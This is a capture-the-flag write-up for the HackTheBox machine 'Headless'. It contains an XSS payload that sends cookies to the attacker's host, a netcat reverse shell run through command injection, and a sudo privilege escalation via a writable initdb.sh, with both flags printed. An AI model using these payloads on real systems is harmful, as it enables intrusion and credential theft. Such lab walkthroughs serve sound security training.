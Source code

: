 ```yaml
---
layout: post
title: "Headless"
description: "Headless is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 5000 10.129.53.93
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-03-23 15:13 EDT
Nmap scan report for 10.129.53.93
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 23 Mar 2024 19:13:59 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|_    box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 22.01 seconds                                
```


### Enumerate HTTP (Port 5000)

![Pasted image 20240715111852.png](/images/Pasted image 20240715111852.png){: .normal }


Found subdirectory using Dirsearch.
```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u <http://10.129.53.93:5000>
  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                      

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_10.129.53.93_5000/_24-03-23_15-20-17.txt

Target: <http://10.129.53.93:5000/>

[15:20:17] Starting:                                                                                                                                         
[15:24:37] 401 -  317B  - /dashboard                                        
[15:27:25] 200 -    2KB - /support                                           
   
Task Completed 
```

Cookie value:
```bash
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
# Base64 decoded --> "user".uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Using an XSS payload in the contact form.
![Pasted image 20240715111838.png](/images/Pasted image 20240715111838.png){: .normal }


Authorized cookie found using XSS in the user agent.
```bash
# Save request in burp (set user agent to FUZZ)

ffuf -ic -c -of csv  -request-proto http -request support.req -w xss.txt
# Payload: <img src=x onerror=fetch('<http://ip/'+document.cookie>);>
```

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80                                                                 
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
10.129.185.190 - - [24/Mar/2024 03:01:30] code 404, message File not found
10.129.185.190 - - [24/Mar/2024 03:01:30] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

We now have access to the dashboard.
![Pasted image 20240715111831.png](/images/Pasted image 20240715111831.png){: .normal }


Command injection is possible when we intercept the request.
![Pasted image 20240715111827.png](/images/Pasted image 20240715111827.png){: .normal }


Reverse shell payload:
```bash
nc -e /bin/sh 10.10.14.26 443
```

Shell as dvir.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.53.93] 40440
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

User flag: `93952774a10ce25343527204aab9f377`
```bash
cat user.txt 
93952774a10ce25343527204aab9f377
```


## Privilege Escalation

Sudo -l output:
```bash
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Looks like the syscheck binary executes [initdb.sh](http://initdb.sh).
```bash
strings /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
exit 0
```

Create the [initdb.sh](http://initdb.sh) script.
```bash
touch initdb.sh
chmod +x initdb.sh
echo "nc -e /bin/sh 10.10.14.26 443" > initdb.sh 
```

Now we can execute the syscheck binary with sudo.
```bash
sudo syscheck
```

Shell as root:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.53.93] 44638
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `62bd5afddfd8de3d2f63a9163da53f45`
```bash
cat root.txt
62bd5afddfd8de3d2f63a9163da53f45
```